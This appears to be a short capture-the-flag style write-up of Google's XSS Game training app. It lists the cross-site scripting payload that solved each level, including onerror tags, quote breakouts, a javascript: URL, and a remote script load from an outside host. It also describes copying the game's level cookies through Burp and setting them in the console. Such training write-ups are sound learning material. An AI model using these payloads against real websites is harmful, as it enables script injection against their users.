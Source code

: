 # Notes on Google's [XSS Game][1] Web App

## Levels 1 & 2

```html
<img src=x onerror="alert('xss')"></img>
```
```
" onerror=alert('xss')/> <img src="cloud1.jpg">
```

## Level 3
To get past Level 3 I had to use Safari (10.0.3) because Firefox (51.0.1) and Chrome (55.0.2883.95) both prevented the injection of a space, encoded or not, after the single quote. Here is the full URL I used to successfully pass Level 3 with Safari:
```
https://xss-game.appspot.com/level3/frame' onerror="alert('xss')"
```
But I wanted to keep working with Firefox. So I stole Safari's cookie called "level3".
I configured Safari to use the Burp proxy, then copied the name and value of the third cookie:
```
level1=f148716ef4ed1ba0f192cde4618f8dc5; level2=b5e530302374aa71cc3028c810b63641; level3=d5ce029d0680b3816a349da0d055fcfa
```
Here's how to set a new cookie in FF or Chrome using the console in dev tools:
```javascript
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa";
```
Now you can advance to level 4 in FF or Chrome.

## Level 4

https://xss-game.appspot.com/level4

For Level 4 I had to look up somebody else's answer and play with it because it was not working as they described. Eventually I found that, in all three browsers, it only worked if you input it into the input field. It would not work on the URL.
```
');alert();var b=('
```

## Level 5
I got through Level 5 with this URL:
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```
But clicking the Go button next to the URL did not work. I had to actually click the "Next >>" button. That button, if you mouse over it, showed that it's target was:
```
javascript:alert(1)
```

By me having edited the URL manually, that button's href value had changed to my input.


## Level 6
For Level 6 I had to look up the answer. It turns out that the regex was not case sensitive, so this is the successful URL:
```
https://xss-game.appspot.com/level6/frame#HTTPS://xss.rocks/xss.js
```
[1]: https://xss-game.appspot.com/
